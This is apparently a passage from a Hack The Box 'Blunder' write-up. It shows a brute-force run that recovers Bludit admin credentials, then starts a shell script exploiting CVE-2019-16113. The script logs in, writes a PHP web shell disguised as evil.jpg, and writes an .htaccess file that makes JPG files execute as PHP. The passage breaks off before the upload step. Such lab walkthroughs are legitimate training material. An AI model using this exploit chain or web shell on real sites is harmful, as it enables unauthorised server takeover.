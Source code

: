 And now lets run it:

```shell-session
╭─zoey@nomadic ~/htb/blunder ‹master*›
╰─$ ./brute-force-bludit.py
[*] Trying: Load
[*] Trying: Plugins
[*] Trying: and
[*] Trying: for
[*] Trying: Include
[*] Trying: Site
[*] Trying: Page
[*] Trying: has
[*] Trying: About
[*] Trying: King
[*] Trying: with
[*] Trying: USB
[*] Trying: Begin
[*] Trying: more
[*] Trying: End
[*] Trying: service
[*] Trying: from
[*] Trying: Stadia
[*] Trying: Dynamic
[*] Trying: tag
[*] Trying: blunder
[*] Trying: interesting
[*] Trying: facts
...
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

## RCE

We know from earlier enum there are RCE exploits for bludit, lets try CVE-2019-16113. The only reference is a github issue(https://github.com/bludit/bludit/issues/1081),
but it has a detailed description. First we upload a jpg file with with php contents, then we upload an `.htaccess` file that allows executing
jpg files as php scripts. This works because the `uuid` value is user-configurable and we can do path traversal, and the `.htaccess` file
is uploaded to a temporary directory. We can try it the first time in burp, but then lets script our way back in:

```sh
#!/bin/sh

# get cookie and csrf token
curl -v 'http://10.10.10.191/admin/' > /tmp/bludit-request 2>&1
cookie=$(cat /tmp/bludit-request | grep 'Set-Cookie' | sed -nr 's/^.*BLUDIT-KEY=(.+); path.*$/\1/p')
csrf_token=$(cat /tmp/bludit-request | grep 'jstokenCSRF' | sed -nr 's/^.*value="(.*)">$/\1/p')

# login
curl --silent 'http://10.10.10.191/admin/login' -H "Cookie: BLUDIT-KEY=${cookie}" --data "tokenCSRF=${csrf_token}&username=fergus&password=RolandDeschain&save=" >/dev/null

# create evil.jpg
echo '<?php system($_GET[1]); ?>' > /tmp/evil.jpg

# create .htaccess file
echo "RewriteEngine off
AddType application/x-httpd-php .jpg" > /tmp/.htaccess
```
